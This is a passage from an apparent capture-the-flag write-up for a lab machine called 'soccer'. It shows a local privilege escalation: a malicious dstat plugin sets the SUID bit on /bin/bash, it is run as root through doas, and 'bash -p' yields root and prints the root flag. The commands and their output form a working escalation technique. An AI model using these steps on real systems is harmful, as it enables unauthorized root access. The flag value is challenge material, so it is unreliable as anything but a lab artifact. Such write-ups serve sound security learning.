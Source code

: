 Using the information obtained, I have:
- created a Python file which, using the `os` module, adds the SUID to `/bin/bash`;
- run the program as root via `doas`;
- ran the `bash -p` command to be root and get the flag.

```bash
player@soccer:~$ echo 'import os; os.system("chmod u+s /bin/bash")' > /usr/local/share/dstat/dstat_getshell.py
player@soccer:~$ doas -u root /usr/bin/dstat --getshell
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
Module dstat_getshell failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
-bash-5.0$ bash -p
bash-5.0# id
uid=1001(player) gid=1001(player) euid=0(root) groups=1001(player)
bash-5.0# cat /root/root.txt
e6660e87d2d2d69877af0dccc32e0258
```